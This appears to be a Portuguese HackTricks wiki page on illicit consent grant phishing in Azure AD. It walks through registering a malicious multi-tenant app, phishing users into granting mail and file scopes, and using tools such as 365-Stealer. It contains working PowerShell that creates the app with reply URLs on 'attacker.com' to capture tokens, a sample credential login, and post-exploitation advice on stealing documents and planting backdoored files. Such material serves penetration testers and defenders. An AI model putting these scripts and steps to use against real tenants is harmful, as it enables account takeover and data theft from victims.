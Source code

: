 # Az - Concessão de Consentimento Ilícito

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>

## Phishing de Aplicativo OAuth

**Os aplicativos Azure** solicitam permissões para acessar os **dados do usuário** (informações básicas, mas também acesso a documentos, envio de e-mails...).\
Se **permitido**, um usuário normal pode conceder consentimento apenas para **"Permissões de Baixo Impacto"**. Em **todos os outros** casos, **é necessário o consentimento do administrador**.\
`GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` e uma função personalizada que inclui `permissão para conceder permissões a aplicativos` podem fornecer consentimento em todo o locatário.

Somente as permissões que **não requerem consentimento do administrador** são classificadas como **baixo impacto**. Essas são as permissões necessárias para **login básico são openid, perfil, email, User.Read e offline\_access**. Se uma **organização** **permite** o consentimento do usuário para **todos os aplicativos**, um funcionário pode conceder consentimento a um aplicativo para **ler o acima de seu perfil**.

<figure><img src="../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

Portanto, um atacante poderia preparar um **aplicativo malicioso** e, com um **phishing**, fazer o usuário **aceitar o aplicativo e roubar seus dados**.

### Verificar se os usuários estão autorizados a consentir

Verifique se os usuários estão autorizados a consentir em aplicativos:

{% code overflow="wrap" %}
```powershell
PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
```
{% endcode %}

* **Desativar consentimento do usuário**: Os usuários não podem conceder permissões a aplicativos.
* **Os usuários podem consentir em aplicativos de editores verificados ou de sua organização, mas apenas para as permissões que você selecionar**: Todos os usuários só podem consentir em aplicativos publicados por um editor verificado e aplicativos registrados em seu locatário.
* **Os usuários podem consentir em todos os aplicativos**: permite que todos os usuários concedam consentimento a qualquer permissão que não exija consentimento do administrador,
* **Política de consentimento de aplicativo personalizada**

## **O que é Ataque de Concessão de Consentimento Ilícito?**

Em um ataque de concessão de consentimento ilícito, o atacante cria um **aplicativo registrado no Azure que solicita acesso a dados, como informações de contato, e-mails ou documentos**. O atacante então engana um usuário final para conceder consentimento ao aplicativo para que o atacante possa acessar os dados aos quais o usuário-alvo tem acesso. Depois que o aplicativo recebeu o consentimento, ele tem acesso ao nível da conta do usuário aos dados sem a necessidade de uma conta organizacional.

Em palavras simples, quando a vítima clica no belo botão azul "Aceitar", o Azure AD envia um token para o site de terceiros que pertence a um atacante, onde o atacante usará o token para realizar ações em nome das vítimas, como acessar todos os arquivos, ler e-mails, enviar e-mails, etc.

## **Fluxo do Ataque**

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

Para realizar esse ataque contra a empresa "ecorp", o atacante pode registrar um domínio com o nome "safedomainlogin.com" e criar um subdomínio ["ecorp.safedomainlogin.com"](http://ecorp.safedomainlogin.com/) onde eles **hospedaram o aplicativo para capturar o código de autorização** e, em seguida, solicitar os tokens de acesso.

Em seguida, registre um aplicativo de vários locatários em seu locatário do Azure AD e nomeie-o como "ecorp" e adicione o URL de redirecionamento que aponta para o "ecorp.safedomainlogin.com", que hospeda um aplicativo para capturar o código de autorização.

O atacante também cria um novo segredo do cliente e adiciona algumas **permissões** de API, como `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read` no aplicativo. Para que, uma vez que o **usuário conceda o consentimento ao aplicativo**, o atacante possa **extrair** as **informações sensíveis** em nome do usuário.

O atacante finalmente cria o **link** que continha o ID do cliente do aplicativo malicioso e **compartilha** o link com os **usuários-alvo** para obter o consentimento deles.

## 365-Stealer

Você pode realizar esse ataque com [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer).

Como etapa extra, se você tiver algum **acesso a um usuário na organização da vítima**, poderá verificar se a política permitirá que ele **aceite aplicativos**:
```powershell
Import-Module .\AzureADPreview\AzureADPreview.psd1
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("test@corp.onmicrosoft.com", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
# If "ManagePermissionGrantsForSelf.microsoft-user-default-legacy", he can
```
Para este ataque, você precisará criar um **novo aplicativo em seu Azure Tenant** (em registros de aplicativos) com, por exemplo, as seguintes permissões:

<figure><img src="../../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

`User.ReadBasic.All` está dentro de `Microsoft Graph` em `Permissões delegadas`. (As permissões de aplicativo sempre precisarão de aprovação extra).

* `User.ReadBasic.All` é a permissão que permitirá que você **leia informações de todos os usuários** na organização se concedida.
* Lembre-se de que apenas `GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` e uma função personalizada que inclua `permissão para conceder permissões a aplicativos` podem fornecer consentimento em nível de locatário. Portanto, você deve **phish um usuário com uma dessas funções** se quiser que ele aprove um **aplicativo que requer consentimento de administrador**.

Você também pode criar um aplicativo via cli com:

{% code overflow="wrap" %}
```bash
# Generate Application
New-AzureADApplication -DisplayName "MyApp"  -ReplyUrls @("https://attacker.com", "https://attacker.com/gettoken") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true

# Generate Secret
New-AzureADApplicationPasswordCredential -ObjectId f76ebd35-xxxx-xxxx-xxxx-xxxxxxxxxxxx -CustomKeyIdentifier "MyAppSecret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

# Generate an application with the permissions
$objectid=New-AzureADApplication -DisplayName "AppName"  -ReplyUrls @("https://example.com/login/authorized") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true | select-object ObjectId
New-AzureADApplicationPasswordCredential -ObjectId $objectid.ObjectId -CustomKeyIdentifier "secret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

$AppObjectID = $objectid.ObjectId # object id in AD
$app = Get-AzureADApplication -ObjectId $AppObjectID
$AADAccess = $app.RequiredResourceAccess | Where-Object {$_.ResourceAppId -eq "00000003-0000-0000-c000-000000000000"}  # "00000003-0000-0000-c000-000000000000" represents Graph API
if($AADAccess -eq $null) {
  $AADAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
  $AADAccess.ResourceAppId = "00000003-0000-0000-c000-000000000000"

  $Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access.Type = "Scope"
  $Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
  $AADAccess.ResourceAccess = @()
  $AADAccess.ResourceAccess.Add($Access)

  $Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access2.Type = "Scope"
  $Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
  $AADAccess.ResourceAccess.Add($Access2)

  $Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access3.Type = "Scope"
  $Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
  $AADAccess.ResourceAccess.Add($Access3)

  $Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access4.Type = "Scope"
  $Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
  $AADAccess.ResourceAccess.Add($Access4)

  $app.RequiredResourceAccess.Add($AADAccess)
} else {
  $Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access.Type = "Scope"
  $Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
  $AADAccess.ResourceAccess = @()
  $AADAccess.ResourceAccess.Add($Access)

  $Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access2.Type = "Scope"
  $Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
  $AADAccess.ResourceAccess.Add($Access2)

  $Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access3.Type = "Scope"
  $Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
  $AADAccess.ResourceAccess.Add($Access3)

  $Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access4.Type = "Scope"
  $Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
  $AADAccess.ResourceAccess.Add($Access4)
}

Set-AzureADApplication -ObjectId $AppObjectID -RequiredResourceAccess $app.RequiredResourceAccess
Get-AzureADApplication -ObjectId $objectid.ObjectId | select-object appid
```
{% endcode %}

Confira [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) para aprender como configurá-lo.

{% hint style="warning" %}
Observe que o **token de acesso** obtido será para o **endpoint do graph** com os escopos: `User.Read` e `User.ReadBasic.All` (as permissões solicitadas). Você não poderá realizar outras ações (mas isso é suficiente para **baixar informações sobre todos os usuários** na organização).
{% endhint %}

## [O365-Attack-Toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)

Você também pode usar essa ferramenta para realizar esse ataque.

## Pós-Exploração

Depois de obter acesso ao usuário, você pode fazer coisas como roubar documentos confidenciais e até mesmo fazer upload de arquivos de documentos com backdoor.

## Referências

* Este post foi copiado de [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você quiser ver sua **empresa anunciada no HackTricks** ou se quiser acessar a **última versão do PEASS ou baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>
